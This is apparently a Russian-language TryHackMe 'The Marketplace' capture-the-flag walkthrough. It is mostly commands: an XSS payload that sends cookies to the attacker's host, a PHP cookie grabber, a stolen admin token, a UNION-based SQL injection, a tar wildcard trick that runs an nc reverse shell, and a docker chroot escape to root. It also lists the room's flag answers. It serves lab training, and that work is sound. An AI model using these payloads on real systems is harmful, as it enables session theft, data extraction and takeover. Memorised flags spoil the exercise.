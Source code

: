 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [The Marketplace](https://tryhackme.com/r/room/marketplace) 

Всего 1 заданиe:
## Задание 1
Системный администратор The Marketplace, Майкл, предоставил вам доступ к своему внутреннему серверу, чтобы вы могли 
провести пентест платформы Marketplace, над которой он и его команда работали. Он сказал, что в ней все еще есть 
несколько ошибок, которые ему и его команде нужно исправить.

Можете ли вы воспользоваться этим и сможете ли вы получить root-доступ на его сервере?

### Ответьте на вопросы ниже
Что такое флаг 1?
```commandline
nmap -sSCV -p- <IP>
<script>document.location='http://<my_own_IP>:8000/grabber.php?c='+document.cookie</script>

cat > grabber.php << EOF
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
EOF

nc -nlvp 8000
GET /grabber.php?c=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MjE2NzQ1NjN9.SZDjFMO2_KIMpIoLWuD5Zt3fKggTM8AoTS7plL32uig HTTP/1.1
GET /admin HTTP/1.1
```
```commandline
THM{c37a63895910e478f28669b048c348d5}
```
Что такое флаг 2? (User.txt)
```commandline
curl -s --cookie "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MjE2NzQ1NjN9.SZDjFMO2_KIMpIoLWuD5Zt3fKggTM8AoTS7plL32uig" \
http://<IP>/admin?user=`urlencode "0 UNION SELECT 1,GROUP_CONCAT(message_content),3,4 FROM marketplace.messages"` | tail cat user.txt
```
```commandline
THM{c3648ee7af1369676e3e4b15da6dc0b4}
```
Что такое флаг 3? (Root.txt)
```commandline
id michael
find / -type f -user michael -exec ls -l {} + 2>/dev/null
cat /opt/backups/backup.sh 
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *

sudo -l
cat > /opt/backups/shell.sh << EOF
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.8.50.72 4444 >/tmp/f
EOF

chmod +x /opt/backups/shell.sh
touch "/opt/backups/--checkpoint=1"
touch "/opt/backups/--checkpoint-action=exec=sh shell.sh"
cd /opt/backups/
sudo -u michael /opt/backups/backup.sh

nc -nlvp 4444
id
docker image ls
python3 -c "import pty;pty.spawn('/bin/bash')"
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
id
cat /root/root.txt
```
```commandline
THM{d4f76179c80c0dcf46e0f8e43c9abd62}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)
